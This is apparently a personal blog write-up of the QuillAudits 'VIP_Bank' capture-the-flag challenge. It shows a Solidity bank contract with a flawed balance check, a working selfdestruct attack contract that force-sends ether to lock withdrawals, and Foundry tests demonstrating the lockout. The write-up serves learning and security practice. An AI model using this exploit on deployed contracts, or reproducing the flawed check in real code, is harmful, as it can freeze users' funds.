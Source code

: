 ```yaml
---
date: 2023-04-13T12:09:20-04:00
draft: false
tags: [CTF, key 💡]
title: "Day06 - VIP_Bank"
---
```


Recently I discovered on Twitter [this](https://academy.quillaudits.com/challenges) challenges page from Quill Audits, and I decided to give it a try.

I started with the VIPBank challenge, which is a smart contract that allows you to deposit and withdraw funds from it. The challenge consists on locking the contract, aka DoS attack.

# The contract

```javascript
pragma solidity 0.8.7;

contract VIP_Bank{

    address public manager;
    mapping(address => uint) public balances;
    mapping(address => bool) public VIP;
    uint public maxETH = 0.5 ether;

    constructor() {
        manager = msg.sender;
    }

    modifier onlyManager() {
        require(msg.sender == manager , "you are not manager");
        _;
    }

    modifier onlyVIP() {
        require(VIP[msg.sender] == true, "you are not our VIP customer");
        _;
    }

    function addVIP(address addr) public onlyManager {
        VIP[addr] = true;
    }

    function deposit() public payable onlyVIP {
        require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        balances[msg.sender] -= _amount;
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        require(success, "Withdraw Failed!");
    }

    function contractBalance() public view returns (uint){
        return address(this).balance;
    }

}
```

# The attack

DoS attacks *(at least the ones I've seen for now)* are always based in the same principle, which is using the `selfdestruct()` method on an attack contract, which will force send all the funds to the victim contract even though this one won't accept incoming funds.

In this case, just by sending more than `maxETH` to the `VIP_Bank` contract, we will be able to lock it.

```javascript
pragma solidity 0.8.7;

contract Hack {
    constructor() {}

    receive() external payable {}

    function hack(address _Bank) public {
        selfdestruct(payable(_Bank));
    }
}
```

# POC

This is really the meat of this challenge for me, as I want to practice using the `foundry` framework.

We will write some tests that will prove that the `VIP_Bank` contract is in fact working properly and also show that once we use our `Hack` contract to perform the DoS attack, the contract will be locked.

### Tests initial setup

Pretty standard stuff when using `foundry`, we create a new instance of the `VIP_Bank` contract and the `Hack` contract and use the `setUp()` function which is called before each test.

```javascript
pragma solidity 0.8.7;

import "../src/VIPBank.sol";
import "../src/Hack.sol";

import "forge-std/Test.sol";

contract TestVIPBank is Test {
    VIP_Bank public vipBank;
    Hack public hack;

    function setUp() public {
        vipBank = new VIP_Bank();
        hack = new Hack();
    }
```

### Test correct functionality

This is the test that will ensure that the contract is functional and does what it is suposed to do.

```javascript
function test_canWithdraw() public {
    vipBank.addVIP(address(1));
    vm.deal(address(1), 0.1 ether);

    vm.startPrank(address(1));
    vipBank.deposit{value: 0.05 ether}();
    vipBank.withdraw(0.05 ether);
    vm.stopPrank();
}
```

### Test DoS attack

And this one will show that the contract is locked after we call our `Hack` contract.

```javascript
function testFail_cannnotWithdraw() public {
    vipBank.addVIP(address(1));
    vm.deal(address(hack), 0.1 ether);
    vm.deal(address(1), 0.6 ether);

    vm.startPrank(address(1));
    for (uint256 i = 0; i < 10; i++) {
        vipBank.deposit{value: 0.05 ether}();
    }
    hack.hack(address(vipBank));
    vipBank.withdraw(0.05 ether);
    vm.stopPrank();
}
```
Ideally we should simulate this test without giving `address(1)` VIP status, but it doesn't really matter, anyone could run the `hack()` function on the `Attack` contract.

## Wrapping up

As I'm still learning `foundry` this is the way I found to do it, but I'm sure there is a better way, if you know it, please let me know by hitting a DM [@mariodev__](https://twitter.com/mariodev__) on Twitter.